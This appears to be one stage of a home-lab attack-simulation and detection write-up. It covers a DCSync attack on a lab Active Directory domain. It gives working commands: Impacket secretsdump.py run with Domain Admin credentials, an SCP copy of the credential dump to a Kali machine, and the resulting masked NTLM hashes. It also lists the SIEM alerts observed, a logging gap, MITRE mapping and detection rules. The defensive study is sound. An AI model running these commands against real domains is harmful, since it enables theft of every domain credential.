





# Stage 14 — DCSync

> **Status:** Complete — evidence attached  
> **Case:** [Case 02](../../04-Investigation/Cases/case-02-lateral-movement.md)  
> **Investigation:** [Phase 5 Deep Dive](../../04-Investigation/Deep-Dive-Attack-Chain-Investigation.md#phase-5-becoming-god-in-active-directory-kerberoasting-dcsync--the-golden-ticket)  
> **Evidence:** [attack](../../06-Resources/screenshots/attack-simulation/45.png) · [alert](../../06-Resources/screenshots/thehive-alert/14.png)

---

## Objective

Pretend to be a Domain Controller asking for routine directory replication via the Directory Replication Service Remote Protocol (DRSUAPI `drsuapi`) so we can extract Active Directory credential secrets over the wire without copying or touching the raw `NTDS.dit` file on disk. Using Hank Sherman's Domain Admin account, we'll extract the hashes for `Administrator` (RID 500) and `krbtgt` (RID 502).

---

## Commands

```bash
# Step 1: Execute DCSync from DVWA pivot host using compromised Domain Admin credentials against Domain Controller (192.168.56.10)
python3 /usr/local/bin/secretsdump.py ad.lab/HANK_SHERMAN:'Passw***123'@192.168.56.10 -outputfile /tmp/dcsync_output

# Step 2: Transfer extracted NTDS database dump (240KB) from DVWA pivot to Kali attack machine via SCP
scp root@192.168.56.30:/tmp/dcsync_output.ntds /tmp/dcsync_output.ntds

# Step 3: Inspect the head of the extracted NTDS credentials file on Kali
head dcsync_output.ntds
```

---

## What happened

Armed with Hank Sherman's Domain Admin credentials (`Passw***123`) from Stage 13, I ran Impacket's `secretsdump.py` from the DVWA pivot (`192.168.56.30`) targeting Domain Controller `PC-DC.ad.lab` (`192.168.56.10`):

1. **Abusing replication rights:** Because Hank Sherman is in `Domain Admins`, his account has the special rights "Replicating Directory Changes" and "Replicating Directory Changes All". Impacket uses Microsoft's Directory Replication Service protocol (DRSUAPI) to ask the Domain Controller to replicate its database—just like a legitimate backup DC would.
2. **Pulling the SAM and bootKey:** The script briefly started the `RemoteRegistry` service on the DC, grabbed the system bootKey, and dumped local SAM account hashes (`Administrator:500` and `Guest:501`).
3. **Extracting Active Directory credential secrets over the wire:** Through DRSUAPI RPC calls (`DsGetNCChanges`), `secretsdump.py` replicated Active Directory password secrets right over the network, extracting NTLM hashes, Kerberos keys, and password history for every user and machine in the domain without copying or touching the raw `NTDS.dit` database file on disk. The output was saved to `/tmp/dcsync_output.ntds` (240 KB).
4. **Inspecting the loot:** I transferred the dump back to Kali over SCP. Running `head dcsync_output.ntds` revealed every critical domain credential:
   - **Administrator (RID 500):** `Administrator:500:aad3b***4ee:cc814***9fb:::`
   - **Guest (RID 501):** `Guest:501:aad3b***4ee:31d6c***9c0:::`
   - **krbtgt (RID 502):** `krbtgt:502:aad3b***4ee:611a8***f60:::`
   - **win10 (RID 1105):** `ad.lab\win10:1105:aad3b***4ee:2aaa5***929:::`
   - **Other Domain Accounts:** `SAMANTHA_ARNOLD`, `ALTON_HODGES`, `WILDA_ALFORD`, `ALDEN_ATKINSON`, `GREGORY_TRUJILLO`, `LILY_GRAHAM`.

Having the built-in `Administrator` NTLM hash (`cc814***9fb`) meant we could immediately log into any Windows machine using Pass-the-Hash in Stage 15. Even more dangerous, capturing the `krbtgt` hash (`611a8***f60`) gave us the master cryptographic key to forge Kerberos Golden Tickets in Stage 16.

---

## Evidence

### Attack Screenshots


*Figure 14.1: Executing `secretsdump.py` from DVWA pivot host using `HANK_SHERMAN` Domain Admin credentials against `192.168.56.10`, initiating DRSUAPI directory replication.*


*Figure 14.2: Exfiltrating the 240KB `dcsync_output.ntds` credential dump from DVWA to the Kali attack machine.*


*Figure 14.3: Viewing dumped NTLM hashes from `dcsync_output.ntds`, including the built-in Administrator (RID 500) and krbtgt (RID 502) hashes.*

### Alert Screenshots


*Figure 14.4: TheHive Alert #24 (wzb-4174e3672e) capturing root SSH logon at 18:03:52 IST during SCP retrieval of dcsync_output.ntds from DVWA pivot.*


*Figure 14.5: Wazuh Rule 100220 command audit capturing python3 /usr/local/bin/secretsdump.py execution initiating DRSUAPI directory replication against 192.168.56.10.*

---

## Alert observed

| Source | Rule / Event Description | Rule ID | TheHive Alert Title | Severity | Status |
|---|---|---|---|---|---|
| Linux Pivot Host (`DVWA`) | Bash command by root: `python3 /usr/local/bin/secretsdump.py ...` | Rule 100220 (Level 5) | SIEM Indexed (`Wazuh-Raw-Alerts.csv` Row 9274, `wzb-34`) | High | **Detected (Pivot Command Capture)** |
| Linux Pivot Host (`DVWA`) | sshd: authentication success (Interactive Pivot Session & Exfiltration) | Rule 5715 (Level 8) | TheHive Alert #24 (`14.png` / `wzb-4174e3672e`) | Medium | **Detected (Operational SOAR Alert)** |
| Domain Controller (`DomainWin10`) | Windows Security Event ID 4672: `SeDebugPrivilege` assigned to human account `HANK_SHERMAN` paired with EID 4624 | Wazuh Custom Rule 100603 & Rule 92657 | Wazuh Raw CSV (Data Rows 9268–9269, 9283; paired with EID 4624 at Data Rows 9267, 9270–9272) | High (3) | **Detected (Generic Logon & Privilege Telemetry)** |
| Active Directory (Domain Controller) | Directory Service Replication Access (DS-Replication-Get-Changes-All) | Event ID 4662 | Unconfigured in DC Baseline (`DG-14`) | High | **Target Logging Gap (DG-14 / Remediated)** |

> [!NOTE]
> **Detection Partition Reality (Pivot-Only Coverage DG-14):**  
> Impacket `secretsdump.py` was launched interactively on the DVWA pivot at `18:02:40 IST` (`Wazuh-Raw-Alerts.csv` Row 9274): `python3 /usr/local/bin/secretsdump.py ad.lab/HANK_SHERMAN:'Password123'@192.168.56.10 -outputfile /tmp/dcsync_output`, followed by credential file inspection (`cat /tmp/dcsync_output.ntds`, Row 9276) and Domain SID extraction (`lookupsid.py`, Row 9286). As a Level 5 rule, Rule 100220 recorded the commands locally on DVWA and indexed into OpenSearch without SIEM-to-SOAR escalation. Meanwhile, the pivot SSH session used to run it was elevated to Level 8 (Rule 5715) and triggered TheHive Alert #24 (`wzb-4174e3672e`). On the Domain Controller (`DomainWin10`), generic network logon (EID 4624) and administrative privilege assignment (EID 4672 via Custom Rule 100603) were indexed in SIEM (Data Rows 9267–9272, 9283). However, the specific DRSUAPI replication access event (Event ID 4662) was not generated in the SIEM because directory replication SACLs on the domain root object were unconfigured in default Active Directory baselines (`DG-14`). Remediated post-incident via Directory Service Access SACLs and Advanced Audit Policies.

---

## MITRE ATT&CK

| Tactic | Technique | ID | Sub-technique |
|---|---|---|---|
| Credential Access | OS Credential Dumping | T1003 | DCSync (T1003.006) |

---

## Detection opportunities

1. **Replication Rights Auditing (Windows Event ID 4662):**
   - Configure Advanced Audit Policy: `Audit Directory Service Access` -> `Success`.
   - Create a SIEM/Sigma rule matching Event ID 4662 where `Properties` contains:
     - `{1131f6aa-9c07-11d1-f79f-00c04fc2dcd2}` (DS-Replication-Get-Changes)
     - `{1131f6ad-9c07-11d1-f79f-00c04fc2dcd2}` (DS-Replication-Get-Changes-All)
     - `{89e4b325-ac78-11d1-8780-00c04fc2dcd2}` (DS-Replication-Get-Changes-In-Filtered-Set)
   - **Whitelist:** Filter out legitimate Domain Controllers (computer accounts ending in `$` located in the Domain Controllers OU). Any user account or non-DC IP requesting these rights is an immediate, high-fidelity indicator of DCSync.

2. **Network Protocol Detection (Suricata / Zeek):**
   - Detect MS-DRSR / DRSUAPI RPC traffic: Monitor for `DsGetNCChanges` interface UUID `e3514235-4b06-11d1-ab04-00c04fc2dcd2` originating from any IP that is not a known Domain Controller.
   - Flag RPC endpoint mapper binds on TCP port 135 connecting to replication interfaces from unauthorized subnets.

3. **Remote Registry and Service Manipulation:**
   - Detect Windows System Event ID 7036 / 7045 indicating the `RemoteRegistry` service changed to running state, initiated remotely via RPC/SMB.

---

## Notes

- DCSync is a feature, not an exploit: it uses documented Microsoft Active Directory replication protocols designed for domain controller synchronization. Therefore, it does not execute custom code on the target DC.
- Possession of the `krbtgt` hash (`611a8***f60`) represents the ultimate privilege escalation threshold in Active Directory, concluding **Case 02 (Lateral Movement)** and enabling **Case 03 (Domain Compromise & Persistence)**.
- Stage 15 directly leverages the extracted `Administrator` NTLM hash (`cc814***9fb`) for Pass-the-Hash execution.
